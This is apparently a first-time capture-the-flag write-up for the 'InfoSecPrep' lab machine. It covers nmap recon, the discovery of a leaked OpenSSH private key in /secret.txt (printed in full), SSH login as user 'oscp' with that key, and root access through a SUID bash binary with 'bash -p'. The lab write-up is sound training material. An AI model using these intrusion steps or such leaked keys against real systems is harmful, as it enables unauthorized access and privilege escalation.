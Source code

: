 # InfoSecPrep writeup by Chanathip (this is my first writeup btw)
## Info-Sheet

- IP: 192.168.184.89
- DNS-Domain name: N/A
- Host name: InfoSecPrep
- OS: Linux
- Server: Apache httpd 2.4.41
- Kernel: Linux oscp 5.4.0-40-generic \#44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

---
## Recon
---
Services and ports:
```bash
# Nmap 7.91 scan initiated Fri Sep  3 17:24:39 2021 as: nmap -v -sC -sV -oN scans/nmap.txt 192.168.184.89  
Nmap scan report for 192.168.184.89  
Host is up (0.068s latency).  
Not shown: 998 closed ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)  
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)  
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)  
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
|_http-generator: WordPress 5.4.2  
| http-methods:    
|_  Supported Methods: GET HEAD POST OPTIONS  
| http-robots.txt: 1 disallowed entry    
|_/secret.txt  
|_http-server-header: Apache/2.4.41 (Ubuntu)  
|_http-title: OSCP Voucher &#8211; Just another WordPress site  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Read data files from: /usr/bin/../share/nmap  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
# Nmap done at Fri Sep  3 17:24:52 2021 -- 1 IP address (1 host up) scanned in 12.84 seconds
```
### Port 22 - SSH 
- Name: OpenSSH
- Version: OpenSSH 8.2p1 Ubuntu 4ubuntu0.1
- Takes-password: No password, RSA key only

Netcat Connection to SSH

```bash
┌─[✗]─[kenobi@cg-home]─[~/ctf/ProvingGround/Warmup/InfoSecPrep]  
└──╼ $nc 192.168.184.89 22  
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.1
```
```
nc 192.168.184.89 22
```

### Port 80 - Web server

- Server: Apache httpd 2.4.41
- Scripting language: php
- IP-address: 192.168.184.89
- Domain name address: N/A

```bash
curl --head http://192.168.184.89   
```
```bash
HTTP/1.1 200 OK  
Date: Fri, 03 Sep 2021 22:34:02 GMT  
Server: Apache/2.4.41 (Ubuntu)  
Link: <http://192.168.184.89/index.php/wp-json/>; rel="https://api.w.org/"  
Content-Type: text/html; charset=UTF-8
```

- Web application: Wordpress
- Name: InfoSecPrep
- Version: 5.4.2

##### /index.php
- Blogs
- Found possible username `oscp`

##### /robots.txt
- /secret.txt

##### /secret.txt
- contained base64 encoded
-  decoded value below
```
-----BEGIN OPENSSH PRIVATE KEY-----
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
8nfK2oDc6LfrDmjQAAAAlvc2NwQG9zY3A=
-----END OPENSSH PRIVATE KEY-----
```

- Possible ssh-key of user `oscp`

---

## exploitation

---
### Port 22 - SSH
- We try using ssh-key found against user `oscp`
##### steps
1. chmod 600 `<filename>`
2. ssh -i `<filename>` oscp@`<IP>`

Successfully Logged in

---
## PRIVILEGE ESCALATION
---

- Perform basic local enumrations

### Possible escalate routes
- SUID
- ##### steps
1. find / -perm -4000 2>/dev/null
2. Found interesting bin for priv esc --> /usr/bin/bash

#### priv esc
- ##### steps
1. Using /usr/bin/bash with SUID for priv esc
2. Go to [[https://gtfobins.github.io]]
3. Search for bash binary
4. Found `bash -p` for priv esc
5. Execute, got root bash shell

# GG!
